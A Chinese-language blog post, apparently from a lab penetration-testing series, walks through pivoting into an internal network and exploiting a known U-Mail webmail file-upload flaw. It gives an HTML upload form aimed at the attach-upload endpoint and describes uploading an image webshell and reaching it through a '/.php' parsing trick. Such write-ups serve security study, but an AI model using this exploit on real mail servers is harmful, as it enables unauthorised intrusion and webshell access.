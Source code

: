```yaml
---
ylayout:     post
title:      内网漫游【三】
subtitle:   web-内网渗透
date:       2019-06-09
author:     Threekb
header-img: img/post-bg-coffee.jpeg
catalog: true
tags:
    - 渗透测试
    - 内网渗透
    - 内网漫游
    - web渗透
---
```


# 内网漫游【三】

> ## **【实验环境】仅供学习参考**

## 【内网渗透】

>  **我们上篇讲到已经进入目标主机的内网，并进入了路由页面**

* 现在尝试在路由页面收集信息，发现其他内网主机IP

* 在终端监控处发现一个ip为`172.19.23.123`的内网主机

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190609150414.png)

* 使用http隧道代理建立连接，并访问目标IP

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190609150710.png)

* 发现是一个`u-mail`  CMS,我们也在上一篇的时候在另外一台内网主机上发现了一个domain.com的账号密码，现在可以用到。

* `u-mail` CMS曾经爆发过严重的文件上传漏洞，我们可以尝试检查目标网站有没有修复该漏洞

**【EXP代码如下】：**

```
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<FORM name=form1 method=post 
action="http://172.19.23.123/webmail/client/mail/index.php?module=operate&action=attach-upload" enctype=multipart/form-data>
上传文件：<input type="file" name="Filedata" size="30">
<INPUT type=submit value=上传 name=Submit>

```

* html页面如此展示

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190609151220.png)

* 上传一个图片马后，爆出相应的file_id信息

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190609151307.png)

* 账户id为`3`，fileid为`1559808738`尝试连接，并用/.php解析上传的图片马

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190609151429.png)

* 成功连接大马

> ### **成功get另外一个网段内网主机的webshell**



> ### **未完待续....  ：）***
